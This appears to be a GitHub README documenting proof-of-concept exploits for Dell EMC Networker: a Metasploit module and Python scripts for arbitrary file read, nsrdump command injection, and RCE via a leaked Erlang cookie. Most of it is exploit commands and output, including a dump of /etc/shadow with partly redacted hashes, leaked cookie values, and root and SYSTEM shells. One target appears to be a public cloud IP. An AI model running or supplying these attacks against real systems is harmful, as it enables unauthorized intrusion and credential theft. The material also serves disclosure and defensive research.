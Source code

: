 # Dell EMC Networker PoCs

### emc_networker_rce.rb

Metasploit module to gain remote command execution via arbitrary command injection in nsrdump.

### emc_networker_file_read.py

Arbitrary file read with nsr_render_log, affects all versions and any kind of Dell EMC Networker

```
python3 emc_networker_read.py 192.168.121.238 /etc/shadow
root:$m.REDACTED.::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
systemd-network:!!:18382::::::
dbus:!!:18382::::::
polkitd:!!:18382::::::
rpc:!!:18382:0:99999:7:::
tss:!!:18382::::::
rpcuser:!!:18382::::::
nfsnobody:!!:18382::::::
sshd:!!:18382::::::
postfix:!!:18382::::::
chrony:!!:18382::::::
vagrant:$gREDACTED.::0:99999:7:::
nsrtomcat:!!:18599:0:99999:7:::
```

```
python3 emc_networker_read.py 192.168.121.183 C:\\Windows\\System32\\drivers\\etc\\hosts  
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host
# localhost name resolution is handled within DNS itself.
#   127.0.0.1       localhost
#   ::1             localhost
```



### emc_networker_rce_nsrdump.py

Command injection in nsrdump affecting Dell EMC Networker Server.

### emc_networker_rce_erlang.py

Combination of arbitrary file read and exposed Erlang distribution server to gain RCE on Dell EMC Networker Server.

```
python3 emc_networker_rce.py 52.86.24.194
[+] Target seems to be Linux
[+] Target is running EMC Networker 19.4.0.0.Build.25
[+] Leaked Erlang distribution cookie through path traversal.
[+] Cookie value: ZMrEonllvEw6EGq9avSxG2rg3aHexkZx
[+] Got Erlang distribution port for service (rabbit) on port 25672
[*] authenticated onto victim
52.86.24.194:25672 $ id
uid=0(root) gid=0(root) groups=0(root)
52.86.24.194:25672 $ uname -avr
Linux ip-172-31-50-5.ec2.internal 4.12.14-122.37-default #1 SMP Sun Sep 6 05:00:36 UTC 2020 (fe8cacf) x86_64 x86_64 x86_64 GNU/Linux
52.86.24.194:25672 $ ^C
[*] disconnecting from victim
```


```
python3 emc_networker_rce.py 192.168.121.238
[+] Target seems to be Linux
[+] Target is running EMC Networker 9.1.0.2.Build.43
[+] Leaked Erlang distribution cookie through path traversal.
[+] Cookie value: XXEKXJXWOSTUZKOFMHJG
[+] Got Erlang distribution port for service (rabbit) on port 42861
[*] authenticated onto victim
192.168.121.238:42861 $ id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
192.168.121.238:42861 $
[*] disconnecting from victim
```

PoC run against Dell EMC Networker Server on Windows:

```
python3 emc_networker_rce.py 192.168.121.183
[+] Target seems to be Windows
[+] Target is running EMC Networker 9.1.0.2.Build.43
[+] Leaked Erlang distribution cookie through path traversal.
[+] Cookie value: JFBODSOEGHDUTBYQTYYZ
[+] Got Erlang distribution port for service (rabbit) on port 57399
[*] authenticated onto victim
192.168.121.183:57399 $ whoami
nt authority\system
192.168.121.183:57399 $

[*] disconnecting from victim
```

